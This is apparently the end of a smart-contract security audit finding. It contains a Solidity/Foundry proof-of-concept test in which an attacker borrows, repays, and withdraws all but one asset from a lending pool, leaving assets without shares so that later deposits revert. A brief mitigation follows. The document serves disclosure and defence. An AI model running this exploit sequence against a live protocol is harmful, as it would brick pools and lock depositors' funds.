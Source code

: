 ```solidity
        data = abi.encodePacked(vicPoolId, amountOfAsset/100);
        action = Action({ op: Operation.Borrow, data: data });
        positionManager.process(
            attPosition,
            action
        );
        borrowAsset.transfer(attPosition, amountOfAsset/50);
        vm.stopPrank();

        logPoolData(vicPoolId, attPosition);

        vm.warp(block.timestamp + 12);

        logPoolData(vicPoolId, attPosition);

        vm.startPrank(attacker);
        data = abi.encodePacked(vicPoolId, type(uint256).max);
        action = Action({ op: Operation.Repay, data: data });
        positionManager.process(
            attPosition,
            action
        );
        vm.stopPrank(); 

        logPoolData(vicPoolId, attPosition);
        
        vm.startPrank(attacker);
        (,,,,,,,,,uint256 totalDepositAssets,) = pool.poolDataFor(vicPoolId);
        pool.withdraw(vicPoolId, totalDepositAssets - 1, attacker, attacker); // 1 asset remaining with 0 shares, amountOfAsset = 1_000 ether
        vm.stopPrank(); 

        logPoolData(vicPoolId, attPosition);

        vm.startPrank(attacker);
        borrowAsset.approve(address(pool), amountOfAsset/5);
        vm.expectRevert(); // pool is bricked!
        pool.deposit(vicPoolId, amountOfAsset/5, attacker);
        vm.stopPrank();
    }
    function logPoolData(uint256 poolId, address attacker) view public {
        (,,,,,,,,,uint256 totalDepositAssets, uint256 totalDepositShares) = pool.poolDataFor(poolId);
        console2.log("Total Deposit Assets", totalDepositAssets);
        console2.log("Total Deposit Shares", totalDepositShares);
        console2.log("Attacker borrows", pool.getBorrowsOf(poolId, attacker));
        console2.log("================================");
    }
```

### Mitigation

The protocol should check and only allow state transitions that make `assets` or `shares` 0 only if the other one is also 0.